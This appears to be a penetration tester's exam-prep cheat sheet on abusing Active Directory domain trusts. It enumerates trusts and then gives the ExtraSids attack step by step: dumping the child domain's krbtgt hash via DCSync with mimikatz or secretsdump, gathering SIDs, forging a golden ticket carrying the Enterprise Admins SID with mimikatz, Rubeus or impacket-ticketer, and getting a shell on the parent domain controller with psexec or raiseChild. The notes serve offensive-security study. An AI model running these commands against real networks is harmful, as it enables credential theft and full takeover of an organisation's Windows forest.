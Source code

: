 # Domain Trusts Abuse

TODO: Add theory after exam

## Enumerating Trust Relationships

```shell
# Using AD module
Import-Module activedirectory
Get-ADTrust -Filter *

# Using Powerview
Import-Module PowerView.ps1
Get-DomainTrust 

# Using netdom
netdom query /domain:$DOMAIN trust

# Get details like type and direction of trust
Get-DomainTrustMapping

# Get DC and other machines of a domain
netdom query /domain:$DOMAIN dc
netdom query /domain:$DOMAIN workstation

# Getting users in domain
Get-DomainUser -Domain $DOMAIN | select SamAccountName
```

## ExtraSids Attack

- Following are the requirements to perform this attack:
    - The KRBTGT hash for the child domain (the domain you compromised)
    - The SID for the child domain
    - The name of a target user in the child domain (does not need to exist!)
    - The FQDN of the child domain.
    - The SID of the Enterprise Admins group of the root domain

> Child domain is the one we compromised.

### From Windows

- Using mimikatz:

```rust
# Obtaining the KRBTGT Account's NT Hash using Mimikatz
mimikatz # lsadump::dcsync /user:$DOMAIN\krbtgt

# Get-DomainSID function to get the SID for the child domain
Get-DomainSID

# Obtaining Enterprise Admins Group's SID using Get-DomainGroup
Get-DomainGroup -Domain $DOMAIN -Identity "Enterprise Admins" | select distinguishedname,objectsid

# Creating a Golden Ticket
mimikatz # kerberos::golden /user:$NEW_USER /domain:$FQDN_CHILD_DOMAIN /sid:$CHILD_DOMAIN_SID /krbtgt:$KRBTGT_HASH /sids:$ENTERPRISE_ADMIN_SID /ptt
```

> Check the ticket using `klist` command.

- Using rubeus:

```shell
Rubeus.exe golden /rc4:$KRBTGT_HASH /domain:$FQDN_CHILD_DOMAIN /sid:$CHILD_DOMAIN_SID  /sids:$ENTERPRISE_ADMIN_SID /user:hacker /ptt
```

- Now perform DCSync on Parent domain and compromise it.


### From Linux

```shell
# Performing DCSync with secretsdump.py to get krbtgt hash
secretsdump.py $CHILD_DOMAIN/$USER@$DC_IP -just-dc-user $DOMAIN/krbtgt

# Performing SID Brute Forcing using lookupsid.py
# Get Child Domain and Enterprise SIDs from here
impacket-lookupsid $CHILD_DOMAIN/$USER@$DC_IP

# Generating golden ticket
impacket-ticketer -nthash $KRBTGT_HASH -domain $FQDN_CHILD_DOMAIN -domain-sid $CHILD_DOMAIN_SID -extra-sid $ENTERPRISE_ADMIN_SID $NEW_USER

# Export the ticket
export KRB5CCNAME=$NEW_USER.ccache 

# Authenticate to parent domain controller
impacket-psexec $FQDN_CHILD_DOMAIN/$NEW_USER@$PARENT_DOMAIN_DC_FQDN -k -no-pass -target-ip $PARENT_DOMAIN_DC_IP
```

- Impacket also has the tool `raiseChild`, which will automate escalating from child to parent domain. We need to specify the target domain controller and credentials for an administrative user in the child domain

```shell
impacket-raiseChild -target-exec $PARENT_DOMAIN_DC_IP $FQDN_CHILD_DOMAIN/$CHILD_DOMAIN_ADMIN_USER
```